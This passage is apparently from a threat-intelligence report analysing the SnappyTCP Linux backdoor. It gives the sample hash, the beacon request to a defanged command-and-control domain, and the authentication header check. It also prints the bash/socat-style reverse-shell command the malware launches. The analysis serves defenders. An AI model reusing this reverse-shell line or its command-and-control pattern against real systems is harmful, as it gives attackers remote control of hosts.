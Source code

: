 









SHA-256

aea947f06ac36c07ae37884abc5b6659d91d52aa99fd7d26bd0e233fd0fe7ad4


Filename


_con

File type

ELF

File size

8,717 Bytes





The above sample is an example of the non-TLS variant, in which the malware first opens a file named "conf" and reads the first 256 bytes into a buffer and then parses an IP from that buffer. The IP connects via a TCP socket by sending the following command:




GET /sy.php HTTP/1.1\r\nHost: %s\r\nHostname: %s\r\n\r\n", host_name, host_name 




The domain hosting the mentioned sy.php file was observed on the following URL, as early as July 2021, hxxp://lo0[.]systemctl[.]network/sy.php. This also happens to be a subdomain mentioned in a 2022 Greek CERT alert for malicious activity indicating its potential use over a sustained period6. Many of the other network indicators from that CERT alert are assessed to be related to SnappyTCP activity, and proved useful for pivoting on to find more recent infrastructure from 2023, as discussed below.
The malware then checks for the substring "X-Auth-43245-S-20" in the HTTP request, and then checks for "\r\n\r\n", before spawning the TCP reverse shell. The reverse shell is created using a pthread which launches the following:




bash -c \\"./kdd_launch exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:%s:%d 2>&1>/dev/null&\\"




An example of what the HTTP network response looks like, can be seen in the following data capture output:

User-Agent: curl/7.29.0
Host: lo0[.]systemctl[.]network
Accept: */*
%HTTP/1.1 200 OK
Date: [Omitted]
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
X-Auth-43245-S-20: True
Content-Length: 45
Content-Type: text/html
charset=UTF-8
curl [Threat Actor IP Addresses]
python
